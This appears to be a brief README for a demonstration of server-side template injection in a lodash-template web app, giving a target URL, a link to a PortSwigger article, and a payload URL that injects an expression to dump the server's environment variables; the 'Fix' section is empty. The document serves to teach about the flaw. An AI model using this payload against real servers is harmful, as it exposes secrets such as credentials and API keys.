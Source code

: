 # Server Side Template Injection

## URL

- https://server-side-lodash-template-injection.azu.now.sh/?name=TEST

## Payload

[Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection)

- <https://server-side-lodash-template-injection.azu.now.sh/?name=${JSON.stringify(process.env)}>

## Fix